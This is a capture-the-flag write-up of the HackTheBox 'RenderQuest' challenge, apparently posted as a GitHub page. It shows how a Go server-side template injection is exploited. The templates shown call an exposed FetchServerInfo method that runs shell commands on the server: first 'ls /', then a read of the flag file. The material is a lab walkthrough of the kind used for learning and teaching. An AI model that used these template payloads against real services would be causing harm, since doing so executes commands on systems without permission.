






# HackTheBox Write-Up: RenderQuest \[EASY]
## Description
You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!
# My approach
## First thing I did is open the challenge

It looks like I can send a link for my sample template and I can use some available data.
## Check source code and try our own template using available template data


Look like this is ran using golang, after searching for golang templates, its time to test if it works
here I displayed the server information. You can use Github Pages to host your template, for more info visit this page. [Github Pages](https://pages.github.com/)
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>RenderQuest Exploit</title>
</head>
<body>
    <h1>Server Info:</h1>
    <ul>
        <li>Hostname: {{.ServerInfo.Hostname}}</li>
        <li>OS: {{.ServerInfo.OS}}</li>
        <li>Kernel Version: {{.ServerInfo.KernelVersion}}</li>
        <li>Kernel Version: {{.ServerInfo.Memory}}</li>
    </ul>
</body>
</html>
```


Looks like its working, let's take a deeper dive in the main.go
## After checking the source code, we found a suspicious function


It receives a string command, run it in a shell, and return the output as a string.
Let's test some sample commands
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>RenderQuest Exploit</title>
</head>
<body>
    <h1>Server Info:</h1>
    <ul>
        <li>Hostname: {{.ServerInfo.Hostname}}</li>
        <li>OS: {{.ServerInfo.OS}}</li>
        <li>Kernel Version: {{.ServerInfo.KernelVersion}}</li>
        <li>Kernel Version: {{.ServerInfo.Memory}}</li>
    </ul>
    <p>Test command: {{.FetchServerInfo "ls /"}}</p>
</body>
</html>
```


Looks like we found the flag

## Lets change ls / to cat /flag869fdef84e.txt to view the flag
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>RenderQuest Exploit</title>
</head>
<body>
    <h1>Server Info:</h1>
    <ul>
        <li>Hostname: {{.ServerInfo.Hostname}}</li>
        <li>OS: {{.ServerInfo.OS}}</li>
        <li>Kernel Version: {{.ServerInfo.KernelVersion}}</li>
        <li>Kernel Version: {{.ServerInfo.Memory}}</li>
    </ul>
    <p>Final exploit: {{.FetchServerInfo "cat /flag869fdef84e.txt"}}</p>
</body>
</html>
```


# Reference
- https://www.digitalocean.com/community/tutorials/how-to-use-templates-in-go
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection